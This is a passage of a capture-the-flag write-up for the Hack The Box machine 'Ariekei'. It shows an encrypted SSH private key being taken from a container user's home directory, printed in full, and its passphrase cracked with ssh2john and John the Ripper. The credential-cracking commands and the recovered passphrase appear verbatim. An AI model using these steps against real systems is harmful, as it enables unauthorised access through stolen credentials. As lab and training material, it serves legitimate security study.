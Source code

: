 # Initial FootHold as spanishdancer on host
On looking at the `/home/spanishdancer` on the `beehive` docker. We find out that we have an `SSH` Private Key. Which we can try to use on the host to `SSH` into as `spanishdancer`.
```python
root@beehive:/home/spanishdancer/.ssh# ls -la
total 20
drwx------ 2 1000 1000 4096 Sep 24  2017 .
drwxr-xr-x 5 1000 1000 4096 Nov 13  2017 ..
-rw-rw-r-- 1 1000 1000  407 Sep 24  2017 authorized_keys
-rw------- 1 1000 1000 1766 Sep 24  2017 id_rsa
-rw-r--r-- 1 1000 1000  407 Sep 24  2017 id_rsa.pub
root@beehive:/home/spanishdancer/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C3EBD8120354A75E12588B11180E96D5

2UIvlsa0jCjxKXmQ4vVX6Ez0ak+6r5VuZFFoalVXvbZSLomIya4vYETv1Oq8EPeh
KHjq5wFdlYdOXqyJus7vFtB9nbCUrgH/a3og0/6e8TA46FuP1/sFMV67cdTlXfYI
Y4sGV/PS/uLm6/tcEpmGiVdcUJHpMECZvnx9aSa/kvuO5pNfdFvnQ4RVA8q/w6vN
p3pDI9CzdnkYmH5/+/QYFsvMk4t1HB5AKO5mRrc1x+QZBhtUDNVAaCu2mnZaSUhE
abZo0oMZHG8sETBJeQRnogPyAjwmAVFy5cDTLgag9HlFhb7MLgq0dgN+ytid9YA8
pqTtx8M98RDhVKqcVG3kzRFc/lJBFKa7YabTBaDoWryR0+6x+ywpaBGsUXEoz6hU
UvLWH134w8PGuR/Rja64s0ZojGYsnHIl05PIntvl9hinDNc0Y9QOmKde91NZFpcj
pDlNoISCc3ONnL4c7xgS5D2oOx+3l2MpxB+B9ua/UNJwccDdJUyoJEnRt59dH1g3
cXvb/zTEklwG/ZLed3hWUw/f71D9DZV+cnSlb9EBWHXvSJwqT1ycsvJRZTSRZeOF
Bh9auWqAHk2SZ61kcXOp+W91O2Wlni2MCeYjLuw6rLUHUcEnUq0zD9x6mRNLpzp3
IC8VFmW03ERheVM6Ilnr8HOcOQnPHgYM5iTM79X70kCWoibACDuEHz/nf6tuLGbv
N01CctfSE+JgoNIIdb4SHxTtbOvUtsayQmV8uqzHpCQ3FMfz6uRvl4ZVvNII/x8D
u+hRPtQ1690Eg9sWqu0Uo87/v6c/XJitNYzDUOmaivoIpL0RO6mu9AhXcBnqBu3h
oPSgeji9U7QJD64T8InvB7MchfaJb9W/VTECST3FzAFPhCe66ZRzRKZSgMwftTi5
hm17wPBuLjovOCM8QWp1i32IgcdrnZn2pBpt94v8/KMwdQyAOOVhkozBNS6Xza4P
18yUX3UiUEP9cmtz7bTRP5h5SlDzhprntaKRiFEHV5SS94Eri7Tylw4KBlkF8lSD
WZmJvAQc4FN+mhbaxagCadCf12+VVNrB3+vJKoUHgaRX+R4P8H3OTKwub1e69vnn
QhChPHmH9SrI2TNsP9NPT5geuTe0XPP3Og3TVzenG7DRrx4Age+0TrMShcMeJQ8D
s3kAiqHs5liGqTG96i1HeqkPms9dTC895Ke0jvIFkQgxPSB6y7oKi7VGs15vs1au
9T6xwBLJQSqMlPewvUUtvMQAdNu5eksupuqBMiJRUQvG9hD0jjXz8f5cCCdtu8NN
8Gu4jcZFmVvsbRCP8rQBKeqc/rqe0bhCtvuMhnl7rtyuIw2zAAqqluFs8zL6YrOw
lBLLZzo0vIfGXV42NBPgSJtc9XM3YSTjbdAk+yBNIK9GEVTbkO9GcMgVaBg5xt+6
uGE5dZmtyuGyD6lj1lKk8D7PbCHTBc9MMryKYnnWt7CuxFDV/Jp4fB+/DuPYL9YQ
8RrdIpShQKh189lo3dc6J00LmCUU5qEPLaM+AGFhpk99010rrZB/EHxmcI0ROh5T
1oSM+qvLUNfJKlvqdRQr50S1OjV+9WrmR0uEBNiNxt2PNZzY/Iv+p8uyU1+hOWcz
-----END RSA PRIVATE KEY-----
```

We crack the Passphrase with `ssh2john` and `JtR`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # ssh2john.py spanishdancer.pem > ssh.hash
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (spanishdancer.pem)
```
